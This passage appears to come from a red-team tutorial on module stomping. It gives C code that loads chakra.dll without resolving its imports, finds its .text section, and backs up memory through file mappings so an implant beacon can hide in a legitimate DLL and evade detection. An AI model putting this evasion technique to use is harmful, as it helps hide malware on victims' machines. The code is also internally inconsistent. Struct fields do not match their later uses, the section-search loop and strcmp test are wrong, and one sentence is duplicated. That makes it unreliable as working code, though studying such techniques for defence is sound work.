 In this way, the DLL's memory will appear legitimate during the beacon's inactivity period, with a very brief window of visibility only during the beacon's execution. This minimizes the chances of detection, as the memory changes occur only during the active execution phase and are quickly reverted once the beacon has finished executing.

# Injection: Stomping
We will have a structure to store values to pass to our agent, containing information about the ``MAPPED`` memory for agent backup and the backup of the Stomped Module.

```c
typedef struct _STOMP_ARGS {
    PVOID  AgntBackup;
    PVOID  ModBackup;
} STOMP_AGRS, *PSTOMP_ARGS;
```

(In the injection code responsible for loading the DLL, we will start with a simple POC, loading the DLL "**chakra.dll**", ...) In the injection code, we will start with a simple POC by loading a DLL called **chakra.dll**, first, we will load it using the API [LoadLibraryEx](https://learn.microsoft.com/pt-br/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexa) passing **DONT_RESOLVE_DLL_REFERENCES**

```c
    MmBase = Instance.Win32.LoadLibraryExA( "chakra.dll", NULL, DONT_RESOLVE_DLL_REFERENCES );
```

This way, the [DllMain entrypoint](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain) of the DLL is not called, and it also does not resolve the IAT, as otherwise the loaded DLL could load other DLLs and start other threads, which we do not want while performing Module Stomping. The standard use of [LoadLibraryEx](https://learn.microsoft.com/pt-br/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexa) is problematic for several reasons that we will discuss later.

We will parse the DLL header to find its .text section.

```c
    SecHdr = IMAGE_FIRST_SECTION( Header );
    for ( ULONG i = 0; i < Header->FileHeader.NumberOfSections; i++ ) {
        if ( strcmp( C_PTR( SecHdr[ i ].Name ), ".text" ) ) {        
            break;
        }
    }

    MmBase = (UINT64)(MmBase) + SecHdr->VirtualAddress;
```

Now, we will create backups of the Agent and the Module using ``MAPPED`` memory.

```c
    hFile = Instance.Win32.CreateFileMappingA( 
        INVALID_HANDLE_VALUE, NULL, PAGE_READWRITE, 
        NULL, StompArgs.Length, NULL 
    );

    StompArgs.Backup = Instance.Win32.MapViewOfFile( 
        hFile, FILE_MAP_WRITE | FILE_MAP_READ, 
        NULL, NULL, StompArgs.Length 
    );

    StompArgs.Backup2 = Instance.Win32.MapViewOfFile( 
        hFile, FILE_MAP_WRITE | FILE_MAP_READ, 
        NULL, NULL, StompArgs.Length 
    );
```
